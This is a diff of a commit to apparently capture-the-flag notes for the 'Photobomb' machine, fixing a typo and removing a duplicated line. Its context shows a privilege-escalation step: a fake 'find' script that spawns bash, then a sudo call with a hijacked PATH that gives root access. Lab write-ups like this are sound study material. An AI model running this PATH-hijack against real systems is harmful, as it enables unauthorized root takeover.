

Before and after one commit to orionLP/pwn, a Markdown page: Photobomb/notes.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
corrected some gramatical mistakes

```diff
--- a/Photobomb/notes.md
+++ b/Photobomb/notes.md
@@ -101,7 +101,7 @@ we just give this to filetype and we are done :)
 
 No further configuration details of Nginx confirm the existance of another server.
 
-# System anaysis
+# System analysis
 
 ## Checking for suid
 
@@ -254,8 +254,6 @@ $ cat find
 #!/bin/bash
 bash
 $ chmod +x find
-$ $ sudo PATH=/tmp:$PATH /opt/cleanup.sh
-/bin/sh: 31: $: not found
 $ sudo PATH=/tmp:$PATH /opt/cleanup.sh
 ls /root
 root.txt
```
